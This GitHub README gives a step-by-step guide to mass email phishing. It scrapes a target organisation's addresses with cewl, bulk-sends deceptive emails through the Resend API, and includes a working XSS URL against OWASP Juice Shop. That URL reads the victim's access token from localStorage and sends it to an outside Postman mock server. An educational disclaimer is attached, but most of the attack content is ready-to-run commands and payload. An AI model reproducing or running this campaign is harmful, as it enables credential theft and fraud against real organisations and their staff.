 # Email Phishing using OSINT

Email phishing is one of the most common type of attacks. This repo outlines the steps that can be taken to perform such an attack on scale.


## Disclaimer:
This guideline is purely for educational purposes. Author isn't resposible for any misuse, or any harm. Any actions and or activities related to this guideline is solely your responsibility. The misuse of this toolkit can result in criminal charges brought against the persons in question. The contributors will not be held responsible in the event any criminal charges be brought against any individuals misusing this toolkit to break the law.

## Steps:
1) Create a kali linux machine
2) Install https://www.kali.org/tools/cewl/
3) Install node v20.9.0
4) Clone https://github.com/ZeeshanZulfiqarAli/Phishing-Automator
5) Open terminal and navigate to this repo.
6) Use cewl to scrape emails on the victim organization's webpage. Command should look like:
`cewl -d 2 -e https://www.<target>.app --email_file 'emails.txt' `
7) Alternatively, you can use another program to gather email addresses.
The program in (4) expects emails in a txt file with one email address per line:
```
email1@test.com
email2@test.com
```
8) Write a html template for email content. You can use one from demo/template.html to get started. Look at the html template section for more details.
9) Create an account on [Resend](https://resend.com/). And get the API key.
10) Run the following command to send the emails to the victims automatically:
`node index.js -k <resend_key> -f ./emails.txt -sb <email_subject> -s <sender_email> -h ./demo/template.html`

## Performing vulnurability analysis of the victim's website
We're aiming our attack on getting victim's access token on [OWASP Juice Shop](https://juice-shop.herokuapp.com/). This website is intentionally left vulnerable. 

Inspecting the application using chrome dev tools showed us that the access token is stored in the local storage. This is great news for us as this indicates that it can be stolen if we can run javascript on the victim's machine.

We use [Zap](https://www.zaproxy.org/download/) to perform analysis on juice shop. We the following alerts
![](./assets/juice-shop-scan-alerts.png)

The missing CSP Header looks really promising. Upon further investigation we found that the search query is set as a query parameter. The query parameter is directly inserted into the DOM which makes it possible to insert malicious code. We did exactly that and created a URL that:
1) Inserts a iframe
2) Provided javascript in the src tag of the iframe using the syntax `<iframe src="javascript:console.log('i can run js')">`
3) We wrote a script that:
    - Reads token from local storage.
    - Makes API call to a mock server we set up using postman ([more info here](https://learning.postman.com/docs/designing-and-developing-your-api/mocking-data/mock-with-api/)). The api call looks like this:
`https://3b233c9b-8705-4517-b3d8-72e8183c0eg1.mock.pstmn.io?token=asd`
    - After making the API call, removes the query parameter
    - Removes the iframe
4) Minified the javascript code using an online tool https://www.minifier.org/
5) Inserted the code in inframe as mentioned in step 2

This is how the final url looks like:
```
https://juice-shop.herokuapp.com/#/search?q=%3Ciframe%20src=%22javascript:function%20replaceState()%7Bwindow.parent.history.replaceState(%7B%7D,document.title,window.parent.location.href.split('?')%5B0%5D)%7D%0Afunction%20remoteEl()%7Bwindow.parent.document.querySelector('iframe').remove()%7D%0Afetch('https://3b233c9b-8705-4517-b3d8-72e8183c0ef6.mock.pstmn.io/token='.concat(localStorage.getItem('token'))).then((r)=%3E%7BreplaceState();remoteEl()%7D).catch((e)=%3E%7BreplaceState();remoteEl()%7D)%22%3E
```

## Writing email template
We want our email to sound legit and provide the user a valid reason to click the link. We asked them to schedule a meeting by clicking on a link but embeded that with the malicious URL we designed in the previous part.

## Viewing results
As soon as a user clicks on the malicious email, an API reqeust is sent to our postman mock server. We can monitor that and see if we get any requests, which will provide us with the token.
![](./assets/results.png)
